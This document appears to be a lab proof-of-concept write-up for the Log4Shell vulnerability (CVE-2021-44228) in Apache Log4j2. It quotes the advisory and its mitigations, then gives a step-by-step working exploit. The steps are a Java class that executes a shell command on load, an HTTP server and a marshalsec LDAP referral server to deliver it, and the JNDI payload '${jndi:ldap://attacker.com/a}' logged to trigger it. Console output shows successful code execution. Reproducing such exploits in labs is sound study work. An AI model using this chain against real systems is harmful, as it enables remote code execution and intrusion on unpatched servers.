

# CVE-2021-44228

> Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default. In previous releases (>2.10) this behavior can be mitigated by setting system property "log4j2.formatMsgNoLookups" to &#8220;true&#8221; or by removing the JndiLookup class from the classpath (example: zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class). Java 8u121 (see https://www.oracle.com/java/technologies/javase/8u121-relnotes.html) protects against remote code execution by defaulting "com.sun.jndi.rmi.object.trustURLCodebase" and "com.sun.jndi.cosnaming.object.trustURLCodebase" to "false". 

## environment
| jdk | 1.8.0_111 |
|-----|-----------|
| os  | linux     |

## Flow

now we use LDAP protocol
here is the flow,[pic source](https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j)


## Action

1. write the exploit code 
```java
class Exploit {
    static {
        try {
            System.out.println("hell world");
            Runtime.getRuntime().exec("touch /tmp/cve-2021-44228-pwned");
        } catch (Exception e) {
            System.out.println(e);
        }
    }
}
```
2. start an LDAP service and a http service

use python3 to start a http service 
```shell
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

use tool:[marshalsec](https://github.com/mbechler/marshalsec) to start an LDAP service 
```shell
 $ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.99.172:8000/#Exploit 
 Listening on 0.0.0.0:8001
```

3. call log4j2 to print some  logs containing the malicious payload: ${jndi:ldap://attacker.com/a} 
```java
logger.error("${jndi:ldap://192.168.99.172:1389/#Exploit}");
```
on the LDAP service console
```shell
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.99.172:8000/#Exploit 
Listening on 0.0.0.0:1389
Send LDAP reference result for #Exploit redirecting to http://192.168.99.172:8000/Exploit.class

```
on the http service console 
```shell
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
on the caller log4j2 console
```shell
hell world
00:06:56.785 [main] ERROR Victim - ${jndi:ldap://192.168.99.172:1389/#Exploit}
```
and the file:cve-2021-44228-pwned was created
```shell
$ ls -la cve*
-rw-rw-r-- 1 br1ght3n br1ght3n 0 Dec 14 00:06 cve-2021-44228-pwned
```
**bingo**